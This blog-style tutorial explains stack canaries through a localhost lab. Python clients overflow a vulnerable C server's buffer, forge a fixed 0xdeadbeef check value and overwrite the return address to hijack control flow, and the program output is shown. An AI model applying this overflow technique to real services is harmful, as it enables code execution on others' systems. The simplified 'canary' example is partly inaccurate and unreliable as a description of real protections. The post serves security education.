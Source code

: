 ```yaml
---
layout: post
title: "Stack Canaries"
date: 2019-08-20T20:12:11+10:00
comments: false
categories:
- hacking
tags:
- exploit
- hacking
---
```


A popular buffer overflow prevention technique employed by some programs.

> Used to detect a stack buffer overflow before execution of malicious code can occur, by placing a small integer, the value of which is randomly chosen at program start, in memory just before the stack return pointer. Most buffer overflows overwrite memory from lower to higher memory addresses, so in order to overwrite the return pointer, the canary value must also be overwritten. This value is checked to make sure it has not changed before a routine uses the return pointer on the stack. This technique can greatly increase the difficulty of exploiting a stack buffer overflow because it forces the attacker to gain control of the instruction pointer by corrupting other important variables on the stack.

In a nutshell involves validating the value of variables on the stack. Here is a concrete example of a stack canary:

    void overflowme(char *str) {
        unsigned int val;
        char buf[4] = {0};
    
        memorycopy(buf, str, 16);
        printf("  [+] val=%x\n", val);
        if (val == 0xdeadbeef) {
            strcopy(buf, str);
        }
    }

If the `0xdeadbeef` check fails, the overflow can't be triggered. Running the server:

    # ./bin/server
    [+] Server is starting...
    [+] Server is now listening on 8888
    [+] secretfunc is @ 0x8048d83
    [+] Awaiting clients...

To trigger `secretfunc` using by overflowing the stack, need to also now also get pass the `0xdeadbeef` check.

Using our trusty python client, let overflow the 4 byte buffer, by filling it with 8 bytes:

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 8888))
buf="ABCDEFGH"
s.send(buf)
```

The output of the vulnerable server program:

      [+] (Client 4) Connected
    Printing:You are client 4
      [+] (Client 4) Sent us 8 bytes
      [+] (Client 4) Sent us 'ABCDEFGH'
      [+] val=48474645

Can see the buffer has bled into the unsigned int `val`.

    unsigned int val;
    char buf[4] = {0};
    printf("  [+] val=%x\n", val);
    if (val == 0xdeadbeef) {

With the 8 byte overflow were able to set `val` to the value of `0x48474645`.

    Char  Dec  Oct  Hex
    A      65 0101 0x41
    B      66 0102 0x42
    C      67 0103 0x43
    D      68 0104 0x44
    E      69 0105 0x45
    F      70 0106 0x46
    G      71 0107 0x47
    H      72 0110 0x48
    I      73 0111 0x49

This looks to be the `EFGH` characters in the 8 byte overflow python client. That means immediately after the first 4 bytes, the unsigned integer is loaded up with the very next 4 bytes (given it can hold 32 bits!). Given this we just need to pack the `0xdeadbeef` bits in straight after the first 4 bytes of the buffer, or just after `ABCD`. After that can proceed to flood the buffer with the address location of `secretfunc` in the hope of overflowing that address into the instruction pointer (`EIP`).

Python's `struct.pack` is brilliant here, as it will pack the bits within the bytes in the specified order, in this case [little endian](https://en.wikipedia.org/wiki/Endianness#Little-endian) ordering indicated with the `<I` style notation.

```python
import socket
import struct

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 8888))
buf="ABCD"
buf += struct.pack('<I', 0xdeadbeef)
buf += struct.pack('<I', 0x8048d83)
buf += struct.pack('<I', 0x8048d83)
buf += struct.pack('<I', 0x8048d83)
buf += struct.pack('<I', 0x8048d83)
s.send(buf)
```

Running this the updated python client, can see the canary is now satisfied, and control flow of the program is taken over as it proceeds to run `secretfunc` (outputs `You win!!!`).

    [+] Awaiting clients...
    [+] (Client 4) Connected
    Printing:You are client 4
      [+] (Client 4) Sent us 52 bytes
      [+] (Client 4) Sent us 'ABCDﾭރ����������'
      [+] val=deadbeef
    	You win!!!!!!!!!!!!!!!!!!
    	You win!!!!!!!!!!!!!!!!!!
    	You win!!!!!!!!!!!!!!!!!!
    	You win!!!!!!!!!!!!!!!!!!
    	Segmentation fault

